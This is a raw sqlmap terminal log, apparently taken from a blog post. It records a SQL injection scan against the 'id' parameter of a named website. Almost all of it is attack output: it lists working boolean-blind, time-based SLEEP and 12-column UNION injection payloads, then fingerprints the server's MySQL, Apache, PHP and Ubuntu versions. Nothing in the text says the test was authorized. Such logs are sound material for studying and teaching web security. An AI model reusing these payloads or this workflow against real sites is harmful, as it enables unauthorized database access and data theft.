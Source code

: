 [07:26:13] [INFO] testing 'MySQL > 5.0.11 stacked queries (SELECT - comment)'
[07:26:13] [WARNING] time-based comparison requires larger statistical model, please wait............                                                                                         
[07:26:14] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[07:26:14] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[07:26:14] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[07:26:14] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SELECT)'
[07:26:24] [INFO] GET parameter 'id' seems to be 'MySQL >= 5.0.12 AND time-based blind (SELECT)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[07:26:24] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[07:26:24] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[07:26:24] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[07:26:24] [INFO] target URL appears to have 12 columns in query
[07:26:24] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 42 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=0 AND 8637=8637

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: id=0 AND (SELECT * FROM (SELECT(SLEEP(5)))LyAm)

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: id=0 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a766271,0x4a51496e536765687942414d4f704c694e647946726474414575697047496d726b6e6744755a7377,0x71626a7171)-- -
---
[07:26:24] [INFO] testing MySQL
[07:26:24] [INFO] confirming MySQL
[07:26:24] [INFO] the back-end DBMS is MySQL
[07:26:24] [INFO] fetching banner
[07:26:24] [INFO] actively fingerprinting MySQL
[07:26:24] [INFO] executing MySQL comment injection fingerprint
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: active fingerprint: MySQL >= 5.5.0
               banner parsing fingerprint: MySQL 5.5.44
banner:    '5.5.44-0ubuntu0.14.04.1'
[07:26:25] [INFO] fetched data logged to text files under '/root/.sqlmap/output/bimpra.tk'

[*] shutting down at 07:26:25

root@ip-172-31-32-255:/var/www/html/sqlmap# 
{% endhighlight %}
